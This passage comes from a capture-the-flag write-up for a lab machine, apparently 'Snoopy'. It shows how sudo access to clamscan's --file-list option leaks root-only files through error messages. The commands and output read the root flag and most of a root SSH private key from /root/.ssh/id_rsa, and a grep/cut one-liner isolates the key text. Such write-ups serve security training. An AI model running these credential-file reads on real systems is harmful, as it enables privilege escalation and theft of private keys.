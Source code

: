 

With `--file-list` or `-f`, it will get a list of files to scan from a
file. Whenever you have something that can read a filename from a file
and interact with it, it's worth trying it on `root.txt`.



    sbrown@snoopy:~$ sudo clamscan -f /root/root.txt
    LibClamAV Warning: **************************************************
    LibClamAV Warning: ***  The virus database is older than 7 days!  ***
    LibClamAV Warning: ***   Please update it as soon as possible.    ***
    LibClamAV Warning: **************************************************
    Loading:    25s, ETA:   0s [========================>]    8.66M/8.66M sigs
    Compiling:   7s, ETA:   0s [========================>]       41/41 tasks 

    d78ba555860aee798a837bbfb58fc0cd: No such file or directory
    WARNING: d78ba555860aee798a837bbfb58fc0cd: Can't access file

    ----------- SCAN SUMMARY -----------
    Known viruses: 8659055
    Engine version: 1.0.0
    Scanned directories: 0
    Scanned files: 0
    Infected files: 0
    Data scanned: 0.00 MB
    Data read: 0.00 MB (ratio 0.00:1)
    Time: 33.961 sec (0 m 33 s)
    Start Date: 2023:05:10 16:43:58
    End Date:   2023:05:10 16:44:32



Here, it reads the hash out of `root.txt`, and then tried to read the
file with named by that hash. But that hash isn't a file, so it fails,
and in the error message, prints the flag!

The same trick works to read `/root/.ssh/id_rsa`:



    sbrown@snoopy:~$ sudo clamscan -f /root/.ssh/id_rsa
    ...[snip]...
    -----BEGIN OPENSSH PRIVATE KEY-----: No such file or directory
    WARNING: -----BEGIN OPENSSH PRIVATE KEY-----: Can't access file
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn: No such file or directory
    WARNING: b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn: Can't access file
    NhAAAAAwEAAQAAAYEA1560zU3j7mFQUs5XDGIarth/iMUF6W2ogsW0KPFN8MffExz2G9D/: No such file or directory
    WARNING: NhAAAAAwEAAQAAAYEA1560zU3j7mFQUs5XDGIarth/iMUF6W2ogsW0KPFN8MffExz2G9D/: Can't access file
    ...[snip]...



Some `bash` foo will print that nicely by getting just the first of the
two error lines and isolating just the content:



    sbrown@snoopy:~$ sudo clamscan -f /root/.ssh/id_rsa 2>&1 | grep "No such file" | cut -d':' -f1
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEA1560zU3j7mFQUs5XDGIarth/iMUF6W2ogsW0KPFN8MffExz2G9D/
    ...[snip]...
    atU0AwHtCazK8AAAAPcm9vdEBzbm9vcHkuaHRiAQIDBA==
    -----END OPENSSH PRIVATE KEY-----







